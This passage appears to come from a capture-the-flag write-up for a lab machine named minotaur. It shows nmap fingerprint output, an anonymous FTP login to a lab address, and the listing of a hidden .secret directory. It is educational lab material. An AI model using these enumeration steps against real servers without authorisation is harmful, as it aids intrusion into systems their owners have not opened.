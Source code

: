 ```console
OS:(O1=M506ST11NW6%O2=M506ST11NW6%O3=M506NNT11NW6%O4=M506ST11NW6%O5=M506ST1
OS:1NW6%O6=M506ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN
OS:(R=Y%DF=Y%T=40%W=F507%O=M506NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 52.88 seconds
```

# First Flag

FTP is open and `nmap`'s `ftp-anon` script indicates anonymous logins are allowed. Let's start there. FTP to minotaur with the username anonymous and no password.

```console
$ ftp minotaur
Connected to minotaur.
220 ProFTPD Server (ProFTPD) [::ffff:10.10.88.99]
Name (minotaur:dnstun0): anonymous
331 Anonymous login ok, send your complete email address as your password
Password:
230 Anonymous access granted, restrictions apply
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```

Once we are logged in, there is a `pub` directory available. Be sure to use `ls -al` to list files so you can see the `.secret` directory inside `pub`.

```
ftp> ls -al
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 root     root         4096 Jun 15  2021 .
drwxr-xr-x   3 root     root         4096 Jun 15  2021 ..
drwxr-xr-x   3 nobody   nogroup      4096 Jun 15  2021 pub
226 Transfer complete
ftp> cd pub
250 CWD command successful
ftp> ls -al
200 PORT command successful
150 Opening ASCII mode data connection for file list
drwxr-xr-x   3 nobody   nogroup      4096 Jun 15  2021 .
drwxr-xr-x   3 root     root         4096 Jun 15  2021 ..
drwxr-xr-x   2 root     root         4096 Jun 15  2021 .secret
-rw-r--r--   1 root     root          141 Jun 15  2021 message.txt
226 Transfer complete
ftp> 
```
